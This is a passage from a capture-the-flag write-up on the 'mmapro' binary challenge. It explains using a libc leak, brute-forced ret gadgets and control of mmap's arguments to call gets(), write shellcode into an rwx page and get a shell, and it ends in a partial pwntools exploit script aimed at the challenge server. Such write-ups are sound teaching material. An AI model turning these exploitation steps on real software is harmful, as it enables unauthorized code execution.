 - And placed `-1` in fd, so we can check our ret gadget is working or not, if it works then the RIP register will have `0xffffffffffffffff`, and that ret gadget value satisfies the required flag values to make the mmap syscall success.
- I got many valid ret gadgets, here are few of them


```
0x33772
0x33e72
0x33eb2
0x3b032
0x3c0f2
```
 <br>

- Then I used my bruteforce script again to make my onegadget plan work. but not even a single gadget worked 🙂 

- Now time for plan B
- We have RIP control in mmap's fd argument, and we can even control the next value in the stack that's offset, but it need to be 0x1000 aligned

<img src="https://camo.githubusercontent.com/2a0f21b09e020d5401822dc6b905011c3e5a6709318e8d515d3a113dcfb08d05/68747470733a2f2f6861636b6d642e696f2f5f75706c6f6164732f724a6a52664f714b31652e706e67"> <br>

- We have `0x77cbb0515000` in RDI, which is our mmaped region, and it has rwx permissions,
- We can jump here if we put this value in the offset argument of mmap (it will be placed in the stack after the FD), but for now only null bytes are here
- So we can overwrite this page contents with our shellcode.
- Since we control the FD argument, we can make the program to call gets() function.
- This is the only meaningful and easiest way, since we have limited control over the other registers.
- RDI is already our mmaped value, so our shellcode will be written here, and we can jump here eventually


<img src="https://camo.githubusercontent.com/1bcfddc5e48f48b366076b2982b132698aaa3705d8b7ee95e8d7f6a22ef3ec40/68747470733a2f2f6861636b6d642e696f2f5f75706c6f6164732f536b5f4f425f394b6b6c2e706e67"> <br>

- And we got our shell 😌 

![](https://raw.githubusercontent.com/jopraveen/jopraveen/main/some-gifs/cat-cute.gif)
<br>

### **Final Script:**

```python 
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF("mmapro_patched",checksec=False)
libc = ELF("libc.so.6",checksec=False)
ld = ELF("ld-2.37.so",checksec=False)

# p = elf.process()
p = remote('chall.lac.tf',31179)
mmap_leak = u64(p.recv())
libc_base = mmap_leak - 1138464
the_mmap64_plus_23_itself = (libc_base + 0x115f37) - 0xf37
ret_gadget = libc_base + 0x33772

log.info(f'mmap leak: {hex(mmap_leak)}')
log.info(f'libc base: {hex(libc_base)}')
log.info(f'ret_gadget: {hex(ret_gadget)}')


addr   = the_mmap64_plus_23_itself
length = 0x57000
prot   = 0x7
```